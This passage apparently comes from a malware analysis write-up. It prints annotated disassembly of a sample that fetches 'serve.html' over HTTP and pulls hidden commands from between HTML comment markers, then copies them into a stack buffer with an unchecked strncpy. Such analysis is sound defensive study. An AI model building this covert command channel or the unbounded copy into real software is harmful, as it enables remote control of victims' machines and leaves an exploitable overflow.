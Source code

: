 ```

; request params
.text:100045AB      push    0                               ; dwContext
.text:100045AD      push    INTERNET_FLAG_NO_CACHE_WRITE    ; dwFlags
.text:100045B2      push    offset lpszAcceptTypes          ; */*
.text:100045B7      push    0                               ; lpszReferrer
.text:100045B9      push    offset szVersion                ; "HTTP/1.1"
.text:100045BE      push    offset szObjectName             ; "serve.html"
.text:100045C3      push    offset szVerb                   ; "GET"
.text:100045C8      push    ebp                             ; hConnect
.text:100045C9      call    ds:HttpOpenRequestA

; download
.text:1000460A      lea     eax, [esp+28h+dwNumberOfBytesRead]
.text:1000460E      push    eax                         ; lpdwNumberOfBytesRead
.text:1000460F      push    40h                         ; dwNumberOfBytesToRead
.text:10004611      push    offset download_buffer_1    ; lpBuffer
.text:10004616      push    [esp+34h+hFile]             ; hFile
.text:1000461A      call    ds:InternetReadFile
```

Then it retrieve some content within the markers `<!--` and `--!>`.

Marker "start":

```
.text:10004674      push    offset tag_start ; "<!--"
.text:10004679      push    [ebp+downloaded_data] ; Str
[...]
.text:10004680      call    esi ; strstr
[...]
.text:10004687      mov     edi, eax
```

Marker "end":

```
.text:10004682      push    offset tag_end  ; "--!>"
.text:10004689      push    [ebp+downloaded_data] ; Str
.text:1000468C      call    esi ; strstr
```

Copy content to stack buffer:

```
; edi->"<!--"
; eax->"--!>"
.text:10004699      sub     eax, edi        ; end-start
.text:1000469B      add     edi, 4          ; skip tag_start
.text:1000469E      sub     eax, 4          ; sub length of tag_start
.text:100046A1      push    eax             ; Count
.text:100046A2      lea     eax, [ebp+raw_content]
.text:100046A5      push    edi             ; Source
.text:100046A6      push    eax             ; Dest
.text:100046A7      call    ds:strncpy
```
